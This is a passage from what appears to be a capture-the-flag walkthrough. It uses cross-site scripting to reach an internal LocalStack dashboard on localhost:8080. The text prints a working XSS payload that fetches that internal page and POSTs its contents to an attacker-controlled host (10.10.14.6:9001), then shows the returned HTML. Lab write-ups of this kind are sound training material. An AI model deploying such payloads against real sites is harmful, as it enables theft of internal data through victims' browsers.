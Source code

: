 #### Dashboard

For this to work, I need to prove the dashboard exists. I'll create
another XSS payload to try to fetch and return the it:



    var mail1req = new XMLHttpRequest();    
    mail1req.onreadystatechange = function() {    
      if (mail1req.readyState == 4) {    
        var exfilreq = new XMLHttpRequest();    
        exfilreq.open("POST", "http://10.10.14.6:9001/", false);    
        exfilreq.send(mail1req.response);    
      }    
    };    
    mail1req.open('GET', 'http://localhost:8080/', false);    
    mail1req.send();   



It does...but the page is not complete - Where I would expect to find
the body is just this:



    ...[snip]...
    <div id="page" class="fullsize">
      <!-- Header -->
      <header id="header" role="banner" style="position: absolute;
          top: 0px; width: 100%; border-bottom: 1px solid #aaaaaa; background: #fafaf4">
        <nav class="aui-header aui-dropdown2-trigger-group" role="navigation">
          <div class="aui-header-inner">
            <div class="aui-header-primary">
              <h1 id="logo" class="aui-header-logo aui-header-logo-textonly">
                            <span class="aui-header-logo-device">
                    <img src="img/localstack_small.png" style="height: 30px; padding: 2px; margin-right: 10px;"/>
                  </span>
              </h1>
            </div>
          </div>
        </nav>
      </header>

      <!-- Content -->
      <section id="content" role="main" ui-view class="fullsize" style="position: absolute; top: 0px; padding-top: 40px; z-index: 1"> </section>

    </div>
    ...[snip]...



This is a shell page that uses JavaScript to load the rest of the
application. That's ok for now, but worth keeping in mind.

#### Initial Attempt
